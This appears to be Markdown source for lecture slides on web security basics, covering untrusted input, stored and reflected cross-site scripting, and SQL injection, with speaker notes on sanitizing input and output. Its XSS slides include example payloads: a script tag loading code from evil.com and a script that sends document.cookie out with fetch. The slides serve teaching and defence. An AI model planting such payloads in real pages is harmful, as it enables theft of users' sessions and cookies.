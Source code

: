 name: Bad Input

* input validation
* executing user input
* trusting client

???
* purchase price example
* code execution on server example
* attacks on server, what about user to user






---
name: XSS

* Cross Site Scripting Attack
  * malicious user inputs content into site
  * display user input: `<script src="http://www.evil.com/p0wn.js">`
* protections:
  * vet input && output
  * react and express do a lot of this for us
  * dangerouslySetHTML...

???
* users vulnerable to other users input
* was ok because markdown parsed out stuff too




---
name: stored vs reflected

* stored:
  * malicious code stored in db from user input
* reflected:
  * fake version of page gets user to submit input to real version
  * input is reflected back:
    * username is incorrect
    * where username is `<script>fetch(..., document.cookie)</script>`


???
* again vetting input and output
* react automatically sanitizes everything (encodes all special characters etc)




---
name: SQL code injection


![](img/exploits_of_a_mom.png){:  .white-background}
